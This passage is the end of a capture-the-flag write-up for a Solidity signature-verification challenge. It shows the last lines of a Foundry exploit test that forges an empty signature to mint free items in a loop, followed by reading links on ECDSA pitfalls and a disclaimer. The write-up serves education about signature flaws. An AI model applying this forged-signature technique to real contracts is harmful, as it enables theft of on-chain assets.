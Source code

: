 ```solidity
            v: 27,
            r: bytes32(""),
            s: bytes32("")
        });

        // Now that we have prepared the ground we can just simply start minting our free Meals!
        // Note that we could mint those in an infinite loop because now the price is zero!
        for( uint i = 0; i < 20; i++ ) {
            vm.prank(player);
            store.buyUsingOracle(oraclePrice, signature);
        }
    }
}
```

You can read the full solution of the challenge opening [MetaverseSupermarket.t.sol](https://github.com/StErMi/Proof-Of-Hack-Protocol-CTF/blob/main/test/MetaverseSupermarket.t.sol).

## Further reading

- [Vitalik Buterin: Exploring Elliptic Curve Pairings](https://medium.com/@VitalikButerin/exploring-elliptic-curve-pairings-c73c1864e627)
- [Immunify: Intro to Cryptography and Signatures in Ethereum](https://medium.com/immunefi/intro-to-cryptography-and-signatures-in-ethereum-2025b6a4a33d)
- [Alex Papageorgiou - B002: Solidity EC Signature Pitfalls](https://0xsomeone.medium.com/b002-solidity-ec-signature-pitfalls-b24a0f91aef4)
- [Solidity Developer: What is ecrecover in Solidity?](https://soliditydeveloper.com/ecrecover)
- [Ethereum EIP-191: Signed Data Standard](https://eips.ethereum.org/EIPS/eip-191)
- [Ethereum EIP-712: Typed structured data hashing and signing](https://eips.ethereum.org/EIPS/eip-712)
- [EIP-2612: Permit - 712-signed approvals](https://eips.ethereum.org/EIPS/eip-2612) (a good example of an applied case of signature usage)
- [SWC-122: Lack of Proper Signature Verification](https://swcregistry.io/docs/SWC-122)
- [SWC-121: Missing Protection against Signature Replay Attacks](https://swcregistry.io/docs/SWC-121)
- [SWC-117: Signature Malleability](https://swcregistry.io/docs/SWC-117)
- OpenZeppelin [ECDSA](https://docs.openzeppelin.com/contracts/4.x/api/utils#ECDSA), [SignatureChecker](https://docs.openzeppelin.com/contracts/4.x/api/utils#SignatureChecker) and [EIP712](https://docs.openzeppelin.com/contracts/4.x/api/utils#EIP712)

## Disclaimer

All Solidity code, practices and patterns in this repository are DAMN VULNERABLE and for educational purposes only.

I **do not give any warranties** and **will not be liable for any loss** incurred through any use of this codebase.

**DO NOT USE IN PRODUCTION**.
